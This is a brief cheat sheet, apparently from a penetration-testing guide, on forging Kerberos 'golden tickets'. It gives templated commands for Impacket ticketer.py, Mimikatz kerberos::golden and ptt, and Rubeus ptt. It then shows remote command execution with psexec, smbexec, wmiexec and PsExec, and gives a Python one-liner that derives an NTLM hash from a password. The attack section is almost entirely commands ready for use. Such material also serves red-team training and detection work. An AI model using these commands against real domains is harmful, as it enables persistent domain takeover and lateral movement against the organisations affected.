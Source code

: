 ## Golden ticket

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# To generate the TGT with NTLM
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# To generate the TGT with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```


With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
# To generate the TGT with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>

# To generate the TGT with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

# To generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

# Inject TGT with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Misc

To get NTLM from password:
```python
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```
